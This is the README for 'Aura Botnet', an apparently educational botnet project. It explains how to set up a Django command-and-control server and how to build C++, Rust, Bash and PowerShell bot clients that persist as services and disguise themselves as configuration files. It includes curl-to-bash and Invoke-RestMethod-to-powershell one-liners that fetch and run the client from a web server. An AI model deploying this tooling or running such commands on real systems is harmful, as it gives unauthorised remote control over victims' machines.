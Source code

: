 # Aura Botnet

C2 Server
---
The botnet's C2 server utilizes the Django framework as the backend.
It is far from the most efficient web server, but this is offset by the
following:
* Django is extremely portable and therefore good for testing/educational
purposes. The server and database are contained within the [`aura-server`](aura-server)
folder.
* Django includes a very intuitive and powerful admin site that can be used
for managing bots and commands
* The server is only handling simple POST requests and returning text
* Static files should be handled by a separate web server (local or remote) that
excels in serving static files, such as nginx

The admin site located at `http://your_server:server_port/admin` can be
accessed after setting up a superuser (see below).

Database
---
The C2 server is currently configured to use a SQLite3 database,
`bots.sqlite3`. The current configuration can be changed in [`aura-server/aura/settings.py`](aura-server/aura/settings.py).
You may wish to use MySQL, or even PostgreSQL instead; this easy to do thanks
to Django's portable database API.

Bot Clients
---
The primary client is written in C++, and can be compiled for either Linux or
Windows using CMake. Alternate clients are written in Rust, Bash, and Powershell.

The client will gather relevant system information and send it to the C2 server
to register the new bot. Identification is done by initially creating a file
containing random data -- referred to as the *seed* throughout the code -- which
will then be hashed each time the client runs to identify the client and
authenticate with the C2 server. It will then install all the files in the
folder specified in the code, and initialize the system service or schedule a
task with the same privileges that the client was run with. The default settings
have the client and other files masquerading as configuration files.

Getting Started: C2 Server
---
### Docker
The Docker image can be found [here](https://hub.docker.com/r/watersalesman/aura-c2/).
Follow the instructions below to run the server normally.

### From Git
To initialize the SQLite3 database, simply change into the [`aura-server`](aura-server)
directory and run:
```
./manage.py migrate
```
After the database is initialized, create a superuser for the admin site by
running
```
./manage.py createsuperuser
```
More information on configuring database
and the admin site can be found in the following
[tutorial](https://docs.djangoproject.com/en/1.11/intro/tutorial02/)
and [documentation](https://docs.djangoproject.com/en/1.11/ref/databases/).

Finally, run the following to start the server:
```
./runserver.sh
```
[`runserver.sh`](aura-server/runserver.sh) is just a wrapper around `manage.py runserver` with some default
options that runs the server on port 41450. This can be easily edited or
bypassed altogether.

Geting Started: Bot Clients
---
The client executable or script need to be run in the same folder as
any necessary components (systemd services for Linux clients and launcher.vbs
for Powershell) on the target machine, or installed via web delivery (see
below).

You can choose whichever client you feel is most appropriate for the platform
and use case.

### C++ Client
There are three header-only projects being used for this client. Thanks to the
following projects for their awesome work:
* [okdshin/PicoSHA2](https://github.com/okdshin/PicoSHA2/) -
A header-file-only, SHA256 hash generator in C++
* [Tencent/rapidjson](https://github.com/Tencent/rapidjson/) -
A fast JSON parser/generator for C++ with both SAX/DOM style API
* [catchorg/Catch2](https://github.com/catchorg/Catch2/) -
A modern, C++-native, header-only, test framework for unit-tests, TDD and BDD

If the repo was not cloned with the `--recursive` flag, pull the mentioned
dependencies by running:
```
git submodule update --init --recursive
```

For the Linux C++ client, you will also need *libcurl* installed with
development files. There may be a *libcurl-devel* or *libcurl-dev* package on
your distro that you need to install.

Afterward, change into the source directory ([`aura-client`](aura-client)).
Then build by running:
```
cmake .    # Run with "-DBUILD_TESTING=ON" to build tests
make
```

For building the Windows C++ client, you can find various methods of using
CMake on Windows
[here](http://preshing.com/20170511/how-to-build-a-cmake-based-project/).

Catch2 unit tests can be found under [`aura-client/tests/`](aura-client/tests/).

### Rust Client
For the Rust client, you will need Rust installed on the platform that you wish
to compile for. Unfortunately, there is no simple method of cross-compiling that
I am aware of. Go into the source directory ([`alt-clients/rust/rust-linux`](alt-clients/rust/rust-linux) or
[`alt-clients/rust/rust-windows`](alt-clients/rust/rust-windows) and run:
```
cargo build --release
```
The binary will be sent to `client/rust-*/target/release/`.

### Powershell and Bash
The Powershell and Bash clients simply need to be executed on the target
machine.

Configuring Commands
---
These can easily be managed through the Django admin site or shell. The
client periodically communicates with the specified server using POST
requests to receive a command (default is every 5 minutes). Commands are
received as a JSON object specifying the shell to run the command in, and
the command to execute.

Commands can be set to run for specific bot groups defined by operating
system and user privilege.  This is specified in
[`aura-server/groups.json`](aura-server/groups.json).
The only reserved group numbers are `-1`, for priority commands that are
run by all bots, and `-2`, for default commands that are run by all bots
only if there is no other command to run; you can also assign commands to
individual bots using the hash of their seed.

Each command can be given a start time and end time. Oneshot commands will
only run once on each bot.

Client Web Delivery
---
The *static* folder can be used to store files to be served by a web server --
preferably an nginx server running on a different port or host as your Django
server. You will need to compile and place the files into the folders, and edit
the index files to reflect any changes like the server name. The simplicity of
executing via web delivery makes it easy to integrate with exploits that run
arbitrary code. An example in bash would be:

```
curl http://static-server-name/welcome/linux/rust | bash
```
In Powershell:
```
Invoke-RestMethod http://static-server-name/welcome/windows/rust | powershell
```

This will run the client with the current privileges, install any necessary
files, and cleanup the downloaded files.

Other Notes
---
Because this is for testing purposes, the C2 server needs to be
hard-coded into client and web delivery files. It is currently set to
*localhost* on all the files. This is because an actual botnet would use something
like a domain generation algorithm (DGA) to sync a stream of changing domains on
the client side with a stream of disposable domains being registered -- or just
really bulletproof hosting like the original Mirai botnet.

The code is also not obfuscated nor is there any effort put toward preventing
reverse engineering; this would defeat the purpose of being a botnet for
testing and demonstrations.

The *killswitch* folder contains scripts for easy client removal when testing
on your devices.

TODO
---
* Use JSON support to send file dependencies for commands
* Add significantly more unit tests

<h2>This repo is for testing/demonstration purposes only. This is not meant to
be implemented in any real world applications except for testing on authorized
machines.</h2>
